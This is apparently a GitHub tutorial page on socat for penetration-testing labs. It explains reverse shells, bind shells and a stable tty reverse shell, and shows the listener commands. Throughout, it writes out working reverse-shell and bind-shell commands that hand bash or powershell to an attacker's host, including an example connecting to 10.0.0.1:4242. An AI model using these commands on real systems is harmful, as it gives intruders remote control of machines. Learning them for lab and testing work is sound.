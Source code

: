<h1>$${\color{yellow}Socat}$$</h1>

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

> Once again, let's start with reverse shells.

*******

### - Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

```socat TCP-L:<port> -```

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to ```nc -lvnp <port>```.

<br>

- On Windows we would use this command to connect back:

```socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes```

> The "pipes" option is used to force powershell (or cmd.exe) to use <kbd>Unix style</kbd> standard input and output.

<br>

- This is the equivalent command for a Linux Target:

```socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"```

************

### - Bind Shells

- On a Linux target we would use the following command:

``` socat TCP-L:<PORT> EXEC:"bash -li" ```

<br>

- On a Windows target we would use this command for our listener:

```socat TCP-L:<PORT> EXEC:powershell.exe,pipes```

<br>

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on <kbd>our attacking machine</kbd> to connect to the waiting listener.

```socat TCP:<TARGET-IP>:<TARGET-PORT> -```

****************

<br>

> ## powerful uses for Socat:
Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```socat TCP-L:<port> FILE:`tty`,raw,echo=0```

<br>

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, ```stty raw -echo; fg``` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

```socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane```

<br>

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with ``` EXEC:"bash -li" ```. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

  - pty, allocates a pseudoterminal on the target -- part of the stabilisation process
  - stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
  - sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
  - setsid, creates the process in a new session
  - sane, stabilises the terminal, attempting to "normalise" it.

> That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/919f2dff-4ea4-4b0d-956f-271ab09006ab">
</p>

> Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding ```-d -d``` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

*************

## Exmaple:

```
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

<br>

if this content liked you, follow me [Here](https://github.com/4bo4yman) ;)
